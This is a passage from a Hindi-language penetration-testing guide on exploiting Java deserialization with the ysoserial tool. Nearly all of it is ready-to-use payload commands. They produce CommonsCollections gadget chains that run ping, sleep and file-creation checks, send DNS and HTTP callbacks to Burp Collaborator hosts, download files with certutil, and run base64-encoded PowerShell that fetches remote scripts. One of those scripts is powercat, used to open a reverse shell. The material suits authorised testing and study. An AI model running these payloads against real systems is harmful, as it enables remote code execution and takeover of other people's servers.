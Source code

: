 ### **शोषण**

#### **ysoserial**

Java deserializations का शोषण करने के लिए मुख्य उपकरण [**ysoserial**](https://github.com/frohoff/ysoserial) है ([**यहां डाउनलोड करें**](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar))। आप [**ysoseral-modified**](https://github.com/pimps/ysoserial-modified) का उपयोग करने पर भी विचार कर सकते हैं जो आपको जटिल कमांड (उदाहरण के लिए पाइप के साथ) का उपयोग करने की अनुमति देगा।\
ध्यान दें कि यह उपकरण **`ObjectInputStream`** के शोषण पर **केंद्रित** है।\
मैं **RCE** पेलोड से पहले "URLDNS" पेलोड का उपयोग करना **शुरू करूंगा** यह परीक्षण करने के लिए कि क्या इंजेक्शन संभव है। वैसे भी, ध्यान दें कि शायद "URLDNS" पेलोड काम नहीं कर रहा है लेकिन अन्य RCE पेलोड काम कर रहा है।
```bash
# PoC to make the application perform a DNS req
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
```